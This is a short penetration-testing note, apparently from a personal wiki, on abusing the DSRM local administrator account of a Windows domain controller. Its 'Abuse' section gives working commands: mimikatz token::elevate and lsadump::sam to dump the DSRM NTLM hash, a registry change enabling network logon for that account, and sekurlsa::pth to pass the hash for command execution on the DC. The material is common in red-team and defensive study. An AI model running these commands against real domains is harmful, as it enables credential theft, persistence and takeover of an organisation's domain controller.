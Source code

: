```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#powershell #mimikatz 
- Stands for Directory Services Restore Mode.
- By default, we can't login as the local Administrator in the DC. The password for this account is the DSRM password which was setup during the server installation.
- DSRM password is also called the SafeMode password. It is required when a server is promoted to Domain Controller, or when the server is rebooted in the Safe Mode.
- This password is not automatically changed.
- As this user is the local administrator, there is no AES keys for this user. We can only dump it's NTLM hash. 
# Abuse
- Dump DSRM password (Required Domain Administrator Privs)
```powershell
token::elevate
lsadump::sam # As DSRM password is a local account, we dump the local SAM database.
```
- This DSRM password can be used to perform Pass-The-Hash attacks
```powershell
# DSRM Administrator, by default, cannot login from the system, and can only login from the physical console or the virtual console.
# Registry edits are required to enable logon over network.
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD

# Can be verified with
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa"

# Now the hash of this Account can be used to perform pass the hash and get command exection on the DC
sekurlsa::pth /domain:<dc-hostname> /user:Administrator /ntlm:<hash> /run:powershell.exe

# verificaiton
ls \\<dc-machine>\C$
```